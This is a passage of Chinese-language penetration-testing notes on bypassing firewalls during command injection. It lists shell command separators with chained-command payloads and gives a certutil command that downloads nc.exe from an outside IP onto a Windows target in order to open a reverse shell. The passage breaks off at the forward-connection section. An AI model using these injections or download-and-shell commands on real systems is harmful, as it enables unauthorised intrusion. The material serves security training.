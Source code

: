 ### 实际案例1：防火墙绕过-正向连接&反向连接&内网服务器

![image-20250918234837687](https://img.yatjay.top/md/20250918234837730.png)

#### 利用管道符等方法执行多条命令

管道符：

- | (管道符号) 
- ||（逻辑或） 
- &&（逻辑与）  
- &(后台任务符号)

其中

- Windows系统使用：| & || &&
- Linux系统使用：; | || & && \`\`(特有\`\`和;)

例子：

```cmd
ping -c 1 127.0.0.1 ; whoami
ping -c 1 127.0.0.1 | whoami
ping -c 1 127.0.0.1 || whoami
ping -c 1 127.0.0.1 & whoami
ping -c 1 127.0.0.1 && whoami
ping -c 1 127.0.0.1 `whoami`
```

#### 利用管道符执行多条命令将shell反弹至控制端

假设目标主机是一个Windows服务器，则反弹shell操作如下

##### 判断操作系统

判断windows：如执行whoami返回administrator可以确定是Windows服务器

##### 判断有误nc程序

windows没有自带的nc：nc命令无法执行

##### 想办法上传nc 反弹权限

想办法上传nc 反弹权限：使用上面所述的下载命令，将nc.exe下载至目标主机。控制端可以提前将nc客户端放到自己的一个服务器上，再在目标主机上使用命令下载至目标主机本地

```cmd
//将远程主机上的nc程序下载到目标主机本地
ping 127.0.0.1|certutil.exe -urlcache -split -f http://47.94.236.117:80/nc.exe C:\\nc.exe 
```

![image-20250919000822933](https://img.yatjay.top/md/20250919000822988.png)

##### 反弹shell

反弹shell：在目标主机上执行nc程序，将shell反弹至控制端

###### 若目标主机防火墙开启出站策略(检查出站流量)，则采用正向连接
